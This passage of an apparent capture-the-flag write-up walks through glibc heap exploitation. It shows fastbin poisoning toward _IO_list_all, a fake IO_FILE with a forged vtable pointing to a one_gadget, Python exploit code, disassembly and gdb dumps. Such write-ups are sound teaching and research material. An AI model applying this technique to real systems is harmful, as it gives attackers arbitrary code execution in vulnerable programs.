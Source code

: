 We can see why in the disassembly of `_IO_flush_all_lockp()`
{% highlight bash %}
0x00007f14c89eb184 <+356>:   mov    rax,QWORD PTR [rbx+0xd8] <-- vptr/&vtable
0x00007f14c89eb18b <+363>:   mov    esi,0xffffffff
0x00007f14c89eb190 <+368>:   mov    rdi,rbx
0x00007f14c89eb193 <+371>:   call   QWORD PTR [rax+0x18] <-- virtual function
{% endhighlight %} 

We can do that by popping `B` off the freelist and setting its name to our one_gadget.

{% highlight python %}
addFlower(0x68,"K"*23, p64(one_gadget)) # K, L: just to place one_gadget in a predictable heap addr
fake_vtable = heap_base+0x1338          #       so that [fake_vtable+0x18] = one_gadget
{% endhighlight %}
{% highlight bash %}
gdb-peda$ x/8xg 0x5643a4b7c338
0x5643a4b7c338: 0x4141414141414141      0x0041414141414141
0x5643a4b7c348: 0x0000000000000071      0x00007fd76ef31567 <-- one_gadget @ +0x18
0x5643a4b7c358: 0x4242424242424242      0x4242424242424242
0x5643a4b7c368: 0x0000000042424242      0x0000000000000000
{% endhighlight %}

After this, we allocate another `0x68` byte chunk to pop D off the fastbin and place our target address (_IO_list_all-0x30+0xd) at the head of our freelist.

```bash
[HEAD]->target
```

## Craft fake IO_FILE object
Our next step will be to craft a fake IO_FILE object that will pass all our checks.
After doing some source assisted single-stepping through `_IO_flush_all_lockp.c`, we can narrow down the conditions we need to pass to just one:

* [FAKE_IO_FILE+0x20] < [FAKE_IO_FILE+0x28] 

{% highlight bash%}
0x00007fd76eebd16b <+331>:   test   eax,eax
0x00007fd76eebd16d <+333>:   jle    0x7fd76eebd280 <_IO_flush_all_lockp+608>
                      |      [jmp is always taken]
                      v
0x00007fd76eebd280 <+608>:   mov    rax,QWORD PTR [rbx+0x20]
0x00007fd76eebd284 <+612>:   cmp    QWORD PTR [rbx+0x28],rax
0x00007fd76eebd288 <+616>:   ja     0x7fd76eebd184 <_IO_flush_all_lockp+356>
                      |
                      v
0x00007f14c89eb184 <+356>:   mov    rax,QWORD PTR [rbx+0xd8] <-- vptr/&vtable
0x00007f14c89eb18b <+363>:   mov    esi,0xffffffff
0x00007f14c89eb190 <+368>:   mov    rdi,rbx
0x00007f14c89eb193 <+371>:   call   QWORD PTR [rax+0x18] <-- one_gadget
{% endhighlight %}
So, we can just set `[io_file+0x20] = 0x0` and `[io_file+0x28] = 0xffffffffffffffff`.
